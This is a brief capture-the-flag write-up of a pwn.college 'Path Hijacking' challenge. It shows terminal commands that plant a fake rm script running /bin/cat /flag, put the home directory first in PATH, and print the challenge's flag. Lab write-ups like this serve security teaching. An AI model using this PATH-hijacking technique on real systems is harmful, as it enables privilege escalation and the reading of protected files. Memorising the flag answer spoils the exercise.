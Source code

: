 #**Pondering Path**

##**Hijacking Commands**

I passed _/bin/cat /flag_ to the shell script named rm to override the existing rm command and set PATH variable using export command. I ran _/challenge/run_ to get the flag.

    hacker@path-hijacking-commands:~$ nano rm

    hacker@path-hijacking-commands:~$ chmod +x rm

    hacker@path-hijacking-commands:~$ export PATH=/home/hacker:$PATH

    hacker@path-hijacking-commands:~$ /challenge/run

    Trying to remove /flag...

    Found 'rm' command at /home/hacker/rm. Executing!

    pwn.college{4OTTYvM-A2YpCEUhyVE_9hl3S4x.ddzNyUDL1cTN0czW}
